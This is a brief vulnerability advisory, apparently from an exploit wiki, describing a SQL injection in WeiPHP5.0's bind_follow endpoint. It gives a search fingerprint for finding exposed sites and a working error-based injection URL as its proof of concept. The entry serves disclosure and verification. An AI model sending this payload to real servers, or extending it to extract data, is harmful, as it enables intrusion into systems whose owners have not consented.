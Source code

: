 # WeiPHP5.0 bind_follow SQL injection vulnerability

## Vulnerability Description

Weiphp5.0 All SQL queries that use the wp_where() function and controllable parameters are affected, and injections exist in the front-end and back-end.

## Vulnerability Impact

  <span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Weiphp5.0</span>

## Network surveying and mapping

  <span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="WeiPHP"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628497681576-0cd015d8-cfef-4dcc-9f5a-e51a95136802.png)

Verify POC

```php
/public/index.php/home/index/bind_follow/?publicid=1&is_ajax=1&uid[0]=exp&uid[1]=)%20and%20updatexml(1,concat(0x7e,md5(%271%27),0x7e),1)--+
```
